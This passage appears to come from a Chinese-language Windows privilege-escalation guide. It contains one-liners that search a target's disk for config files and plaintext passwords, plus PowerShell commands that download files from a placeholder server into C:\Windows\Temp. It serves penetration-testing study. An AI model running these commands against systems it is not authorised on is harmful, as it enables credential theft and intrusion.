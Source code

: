 IIS日志中有什么？

```
C:\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\W3SVC2\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC2\u_ex[YYMMDD].log
```

是否安装了XAMPP，Apache或PHP？是否有XAMPP，Apache或PHP配置文件？

```
dir /s php.ini httpd.conf httpd-xampp.conf my.ini my.cnf
Get-Childitem –Path C:\ -Include php.ini,httpd.conf,httpd-xampp.conf,my.ini,my.cnf -File -Recurse -ErrorAction SilentlyContinue
```

任何Apache网络日志？

```
dir /s access.log error.log
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

有没有有趣的文件？可能在用户目录（桌面，文档等）内吗？

```
dir /s *pass* == *vnc* == *.config* 2>nul
Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue
```

文件中包含密码？

```
findstr /si password *.xml *.ini *.txt *.config 2>nul
Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"
```

##### 附录

###### 枚举脚本

我创建了一个Powershell脚本，该脚本几乎可以自动执行以上所有操作。您可以[在这里查看](https://github.com/absolomb/WindowsEnum)。

###### 传输档案

在特权升级期间的某个时刻，您将需要将文件放入目标。以下是一些简单的方法。

PowerShell Cmdlet（Powershell 3.0及更高版本）

```
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"
```

PowerShell一线

```
(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename") 
```
